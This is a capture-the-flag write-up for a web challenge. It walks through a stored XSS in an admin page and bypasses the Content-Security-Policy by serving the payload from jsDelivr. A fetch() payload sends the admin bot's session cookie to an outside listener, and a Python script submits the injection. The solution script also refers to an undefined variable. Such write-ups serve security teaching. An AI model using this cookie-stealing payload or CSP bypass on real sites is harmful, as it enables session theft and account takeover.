

# [Web] Cursed Party

This webapp has a simple form to send details about a party invitation. Once the invitation is submitted, a bot with admin access will visit the page displaying the invitation requests.

```js
const flag = fs.readFileSync('/flag.txt', 'utf8');
[...]
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});
		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});
```
The bot is authenticating using a cookie, containing a [JWT](https://jwt.io/), signed by the webapp secret. The JWT contains the flag.
Stealing this cookie will give us the flag. This is most likely by using an [XSS](https://owasp.org/www-community/attacks/xss/).

Indeed the admin page displaying the requests is vulnerable to XSS


```html
    <body>
        <div class="container" style="margin-top: 20px">
            
                <div class="card">
                <div class="card-header"> <strong>Halloween Name</strong> : {{ request.halloween_name | safe }} </div>
                <div class="card-body">
                    <p class="card-title"><strong>Email Address</strong>    : {{ request.email }}</p>
                    <p class="card-text"><strong>Costume Type </strong>   : {{ request.costume_type }} </p>
                    <p class="card-text"><strong>Prefers tricks or treat </strong>   : {{ request.trick_or_treat }} </p>

                    <button class="btn btn-primary">Accept</button>
                    <button class="btn btn-danger">Delete</button>
```


However we do have one more thing to overcome. This site uses a [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) header restricting from where Javascript can be loaded into the victim's browser.

```js
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});
```

It uses `https://cdn.jsdelivr.net` as the base URL for scripts: we can upload an XSS payload to Github, use JS Delivr to fetch that script and serve it as part of its CDN.

The XSS payload we will use should not contain `eval`, as the CSP doesn't allow `unsafe-eval`. We can use `fetch` to send the cookie data

```html
<script>fetch('http://1.2.3.4:4444?aaa='+document.cookie, {method: 'GET',mode: 'no-cors'});</script>
```

Once this is hosted on Github, we send the corresponding JSDelivr as part of the invitation form, to be displayed by the admin bot.

```python
import requests

host = "http://1.2.3.4:32689"

xss = b'</p></div><script src="https://cdn.jsdelivr.net/gh/pgaulon/ctf-xss@main/troll.js"></script>'
payload = {
    "costume_type": "aaa",
    "email": "aaa@aa.aa",
    "halloween_name": xss_object,
    "trick_or_treat": "treats"
    }

response = requests.post(host + '/api/submit', json=payload)
print(response.text)
```

We then receive the callback on our listener, with the cookie containing the flag. The cookie being a JWT, it just needs an extra base64 decoding.


